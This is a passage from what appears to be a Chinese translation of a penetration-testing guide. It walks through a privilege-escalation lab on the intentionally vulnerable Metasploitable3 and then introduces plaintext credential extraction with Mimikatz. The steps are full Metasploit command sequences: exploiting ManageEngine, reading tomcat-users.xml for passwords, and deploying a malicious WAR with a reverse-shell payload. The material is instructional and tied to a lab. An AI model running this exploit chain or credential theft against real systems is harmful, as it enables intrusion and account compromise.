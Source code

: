 通常，这只是时间问题。例如，当发现漏洞时，这可能是你在系统打好补丁之前进一步破坏系统有限的好机会。

### 权限提升实验

测试并尝试不同类型的权限升级漏洞的最佳实验环境是 Rapid7的 [Metasploitable3](https://github.com/rapid7/metasploitable3)。这个充满漏洞的框架会自动生成一个 Windows 虚拟机，其中包含所有常见的和不常见的漏洞。配置需要一点时间，但是一旦配置好了虚拟机，它就是一个非常棒的实验环境。

让我们来看一个简单的例子，然后快速开始：
- 使用 nmap 扫描 Metasploitable3 虚拟机的IP ( 确保全端口扫描免得你错过一些端口 ) 
- 你将看到 ManageEngine 在端口8383上运行
- 启动 Metasploit 并搜索任何 ManageEngine 有关的漏洞
  - msfconsole
  - search manageengine
  - use exploit/windows/http/manageengine_connectionid_write
  - set SSL True
  - set RPORT 8383
  - set RHOST < Your IP>
  - exploit
  - getsystem
- 你会注意到你不能获得 `system` 权限，因为你所利用的服务未作为特权进程运行。这时，你能做到的就是尝试所有不同的权限提升攻击。
- 其中，我们看到的一件事是，Apache Tomcat 是作为特权进程运行的。如果我们可以利用这个服务，我们就可以将我们的 payload 作为更高层次的服务运行。我们看到 Apache Tomcat 在外部网络的8282端口运行，但它需要用户名和密码。因为我们有一个本地低权限的 shell，我们可以尝试在磁盘上搜索这个密码。我们可以在谷歌搜索“Tomcat密码存储在哪里”，搜索结果表明：“tomcat-users.xml”。
- 在受害者机器中，我们可以搜索和读取 tomcat-users.xml 文件:
  - shell
  - cd \ && dir /s tomcat-users.xml
  - type “C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33\conf\tomcat-users.xml
- 现在让我们使用找到的密码攻击 Tomcat。首先，登录到8282端口上的 Tomcat 管理控制台，并查看我们的密码是否有效。然后，我们可以使用 Metasploit 通过 Tomcat 部署恶意的 WAR 文件。
  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set HTTPusername sploit
  - set HTTPpassword sploit
  - set RPORT 8282
  - set RHOST < Metasploitable3_IP>
  - set Payload java/shell_reverse_tcp
  - set LHOST < Your IP>
  - exploit
  - whoami
- 你现在应该是 `system` 权限了。我们利用第三方的工具（tomcat）来提升权限到 `system` 权限。

### 从内存中提取明文凭据

[Mimikatz](https://github.com/gentilkiwi/mimikatz) 自推出以来，就改变了在渗透入侵中获取明文密码的方式。在 Windows 10之前，以本地管理员的身份在主机系统上运行 Mimikatz 的话是允许攻击者从 lsass（本地安全机构子系统服务）中提取明文密码的。这种方法在 Windows 10 出现之前非常有效，而在 windows 10 中，即使你是本地管理员，也无法直接读取它。现在，我看到了一些奇怪的现象，其中单点登录（ SSO ）或者一些特殊的软件会把密码保存在 LSASS 进程中让 Mimikatz 读取，但是我们现在先忽略这个。在这一章中，我们将讨论当这件方法（指 SSO 和特殊的软件）不工作时该做什么（比如在 Windows 10系统中）。

假设你攻击了 Windows 10系统的主机并且提升权限了，默认情况下，你将调整 Mimikatz 的配置，并根据下面的查询查看到密码字段为空。
